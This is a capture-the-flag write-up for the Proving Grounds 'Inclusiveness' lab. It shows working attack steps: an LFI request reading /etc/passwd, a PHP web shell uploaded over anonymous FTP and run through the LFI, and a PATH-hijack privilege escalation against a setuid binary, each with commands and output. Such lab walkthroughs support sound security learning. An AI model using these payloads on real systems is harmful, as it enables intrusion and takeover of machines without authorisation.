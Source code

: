 ```yaml
---
title: "Proving grounds Play: Inclusiveness"
layout: post
date: 2023-09-22 02:00
categories: writeup
---
```


Proving grounds Play - Inclusiveness CTF writeup.

## Nmap

```sh
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.168
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 061ba39283a57a15bd406e0c8d98277b (RSA)
|   256 cb3883261a9fd35dd3fe9ba1d3bcab2c (ECDSA)
|_  256 6554fc2d12ace184783e0023fbe4c9ee (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web PORT: 80

![img](/assets/images/CTF/Proving_Grounds/Inclusiveness/web.png)

## Directory Fuzzing

robots.txt file shows `You are not a search engine! You can't read my robots.txt!`. The restriction can be bypassed by changing the useragent in the request to `GoogleBot`.

![img](/assets/images/CTF/Proving_Grounds/Inclusiveness/curl.png)

## /secret_information/

![img](/assets/images/CTF/Proving_Grounds/Inclusiveness/SI.png)

Upon clicking the `english` language button the website fetches the `en.php` file, which can be abused to read local files in the system.

## LFI Vulnerability

Send below curl command to obtain `/etc/passwd`.

```sh
curl -s -A GoogleBot http://192.168.193.14/secret_information/?lang=/etc/passwd -i

HTTP/1.1 200 OK
Date: Fri, 22 Sep 2023 07:59:18 GMT
Server: Apache/2.4.38 (Debian)
Vary: Accept-Encoding
Content-Length: 2191
Content-Type: text/html; charset=UTF-8

<title>zone transfer</title>

<h2>DNS Zone Transfer Attack</h2>

<p><a href='?lang=en.php'>english</a> <a href='?lang=es.php'>spanish</a></p>

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

## Escalate LFI to RCE

### PORT 21: FTP

The FTP service allows anonymous login with write access to the `pub` folder. Create a php remode code execution code as below and save as shell.php.

```php
<?php
system($_GET['cmd']);
?>
```

Login to the FTP server using `anonymous` as login and password. Use the `put` command to upload the shell. Once it's uploaded send the curl request as below to check the remote code execution.

```sh
curl -s -A GoogleBot "http://192.168.193.14/secret_information/?lang=/var/ftp/pub/shell.php&cmd=id"

HTTP/1.1 200 OK
Date: Fri, 22 Sep 2023 08:09:36 GMT
Server: Apache/2.4.38 (Debian)
Vary: Accept-Encoding
Content-Length: 200
Content-Type: text/html; charset=UTF-8

<title>zone transfer</title>

<h2>DNS Zone Transfer Attack</h2>

<p><a href='?lang=en.php'>english</a> <a href='?lang=es.php'>spanish</a></p>

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now obtain a reverse shell by checking the `python` version and using a python reverse shell.

**Initial Foothold Obtained**

## Privilege Escalation

Upon searching the user `tom` home directory there is a file named `rootshell` which is a compiled binary which can be run as root the owner of the file.

```sh
0K drwx------ 10 tom  tom  4.0K Feb  8  2020 .cache
 20K -rwsr-xr-x  1 root root  17K Feb  8  2020 rootshell
4.0K -rw-r--r--  1 tom  tom   448 Feb  8  2020 rootshell.c
4.0K -rw-------  1 tom  tom   684 Feb  8  2020 .ICEauthority
4.0K drwx------  3 tom  tom  4.0K Feb  8  2020 .gnupg
4.0K drwx------ 10 tom  tom  4.0K Feb  8  2020 .config
```

By running this binary will provide root shell.

### rootshell.c

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main() {

    printf("checking if you are tom...\n");
    FILE* f = popen("whoami", "r");

    char user[80];
    fgets(user, 80, f);

    printf("you are: %s\n", user);
    //printf("your euid is: %i\n", geteuid());

    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n");
	setuid(geteuid());
        execlp("sh", "sh", (char *) 0);
    }
}
```

The above c code is the one that has been compiled as `rootshell` binary. The vulnerability exists on the line 8 in where the program checks the user through `whoami` file and if the user is `tom` the program will grant access to root shell.

In order to exploit the vulnerability, the name `tom` should be printed on the whoami file and the PATH to the location of the whoami file should present as the first path where the system would check for the file named whoami.

### Exploitation

The vulnerability can be exploited as follows.

```sh
www-data@inclusiveness:/tmp$ ls
ls
www-data@inclusiveness:/tmp$ echo "printf "tom"" > whoami #code to print tom
echo "printf "tom"" > whoami
www-data@inclusiveness:/tmp$ chmod 777 whoami #make the code executable for everyone
chmod 777 whoami
www-data@inclusiveness:/tmp$ export PATH=/tmp:$PATH #this ensures the /tmp is set as first in PATH variable
export PATH=/tmp:$PATH
www-data@inclusiveness:/tmp$ echo $PATH #check the PATh
echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin #confirm /tmp has been set as first
www-data@inclusiveness:/tmp$ cd /home/tom
cd /home/tom
www-data@inclusiveness:/home/tom$ ./rootshell #run the compiled binary
./rootshell
checking if you are tom...
you are: tom
access granted.
# whoami
whoami
tom# id
id
uid=0(root) gid=33(www-data) groups=33(www-data) #root obtained
```

**Root Obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).